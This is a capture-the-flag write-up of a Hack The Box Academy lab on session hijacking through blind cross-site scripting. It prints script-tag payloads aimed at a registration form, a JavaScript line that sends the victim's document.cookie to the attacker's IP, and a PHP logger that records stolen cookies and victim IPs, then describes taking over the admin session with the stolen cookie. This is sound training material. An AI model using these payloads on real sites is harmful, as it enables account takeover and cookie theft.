






# Hack The Box Academy - Session Hijacking via Blind XSS | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Category:** Blind Cross-Site Scripting / Session Hijacking
>
> **Author:** Jithin Jelson

---

This is a session hijacking challenge, and the objective of this lab is to use blind XSS to retrieve cookie data from the victim's browser so that we can gain logged in access without knowing their credentials. With the ability to execute JavaScript on the victim's machine, we can collect their data and send it to our server to hijack their logged in session.

- **Target IP:** `10.129.69.119`
- **My IP:** `10.10.14.88`

---

## Reconnaissance

Normally we would perform an Nmap scan to begin the lab, but we have already been given the page we are to visit to perform our attack, which is `http://10.129.69.119/hijacking/`.


*Figure 1 - The registration page we're given to attack*

We can first test this site using dummy details.


*Figure 2 - Filling in dummy registration details*

We can confirm that the attack we have to carry out is a blind XSS, as the page confirms that the page won't be shown to you or processed by you, and it is for an admin to review in a panel you don't have access to.


*Figure 3 - The page confirming an admin will review our submission*

---

## Finding the Vulnerable Field

Now let's set up a listener with Netcat to help find us the correct payload to use and the vulnerable input field. Since we know that the password field is stored as a hash value, there is a good chance that won't be it.

Using the view source option we can locate all the field names.


*Figure 4 - Locating the field names via view source*

This is our initial payload:

```
<script src="http://10.10.14.88/fullname"></script>
<script src="http://10.10.14.88/username"></script>
password
jj@gmail.com><script src="http://10.10.14.88/email"></script>
<script src="http://10.10.14.88/imgurl"></script>
```
(note we don't need the field names, but just for good practice).

Seems like the email format is wrong, so that should eliminate another field that is potentially not vulnerable.


*Figure 5 - Invalid email error, ruling out the email field*

We waited for a while but got no response, so using PayloadsAllTheThings, a GitHub repo which can help us use blind XSS payloads, we tried different payloads to see which can work.

After a few attempts we seem to get a response which confirms the vulnerable point was the imgurl and the payload was:


*Figure 6 - Confirming the imgurl field is vulnerable*

```html
"><script src="http://10.10.14.88:8080/imgurl"></script>
```

These were all the payloads I had tested:

```html
<script src=http://10.10.14.88:8080></script>
'><script src=http://10.10.14.88:8080></script>
"><script src=http://10.10.14.88:8080></script>
```

---

## Stealing the Session Cookie

Now we have the vulnerable point and the payload, we can now inject a script to steal cookie data.

We can do this in 2 ways, we can use PHP or Netcat. In the demonstration I will be using a PHP script, as Netcat just dumps the raw HTTP request to your terminal, it doesn't parse anything or run multiple times automatically, so if multiple cookie bearing requests come in, you'd need to manually catch each one and you might miss earlier ones while reading the current one. A PHP script gets hosted properly, can run continuously, parses out the cookie value from each incoming request, and can write each one to a log file, so nothing gets lost and you can review them all afterward.

But first we can create the script which to send to our vulnerable field. Since this is an image URL vulnerability, a suitable script can be:

```javascript
new Image().src='http://10.10.14.88:8080/index.php?c='+document.cookie;
```

And we save this as `script.js`.

Now we can create our PHP server that splits each cookie onto a new line, so that even if multiple victims trigger the XSS exploit, we get all of their cookies in a file.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

We can save this as `index.php`.

Now we can start our PHP listener.


*Figure 7 - Starting the PHP server*

And use the following payload in the vulnerable field:

```html
"><script src="http://10.10.14.88:8080/script.js"></script>
```

We can see that the server got our file. We ran into an issue as our `index.php` didn't run, this is when I realised it was the wrong directory, so I changed it to home and ran it again.


*Figure 8 - Running into the wrong directory issue with index.php*


*Figure 9 - script.js served and the cookie request coming through*

And success. Our PHP script was a success too.


*Figure 10 - cookies.txt with the victim's cookie saved*

---

## Hijacking the Session

Now we can go to the login page and use Shift+F9 to open storage and add our new cookie value.


*Figure 11 - Adding the stolen cookie into the browser's storage*

And we got our flag.


*Figure 12 - Logged in as admin and retrieving the flag*

---

<sub>Write-up by <b>Jithin Jelson</b></sub>
